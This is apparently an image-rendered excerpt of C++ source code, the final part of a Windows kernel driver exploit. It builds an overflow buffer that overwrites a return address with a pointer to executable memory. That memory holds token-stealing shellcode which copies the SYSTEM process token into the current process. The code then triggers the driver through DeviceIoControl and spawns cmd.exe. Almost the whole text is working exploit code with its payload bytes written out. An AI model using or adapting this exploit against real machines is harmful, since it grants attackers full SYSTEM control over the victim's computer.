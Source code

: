 ```cpp
    char expl[0x824];
	memset(expl, 'A', sizeof(expl));

	char *shellcode = "\x60\x31\xC0\x64\x8B\x80\x24\x01\x00\x00\x8B\x40\x50\x89\xC1\xBA\x04\x00\x00\x00\x8B\x80\xB8\x00\x00\x00\x2D\xB8\x00\x00\x00\x39\x90\xB4\x00\x00\x00\x75\xED\x8B\x90\xF8\x00\x00\x00\x89\x91\xF8\x00\x00\x00\x61\x31\xC0\x5D\xC2\x08\x00";

    LPVOID shellc_ptr = VirtualAlloc(0, 58, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (shellc_ptr)
        memcpy(shellc_ptr, shellcode, 58);
    
    memcpy(&expl[0x820], &shellc_ptr, 0x4);
    //memcpy(&expl[0x820], &shellcode, 0x4);

    //expl[0x820] = ((unsigned char *)(&shellcode))[0];
    //expl[0x821] = ((unsigned char *)(&shellcode))[1];
    //expl[0x822] = ((unsigned char *)(&shellcode))[2];
    //expl[0x823] = ((unsigned char *)(&shellcode))[3];
    
    printf("[+] Starting interaction with the driver\n");
    DeviceIoControl(hDevice, IO_CODE, expl, sizeof(expl), NULL, 0, &bytesRetn, NULL);
    system("cmd.exe");
	CloseHandle(hDevice);
	
	
    return 0;
}
```
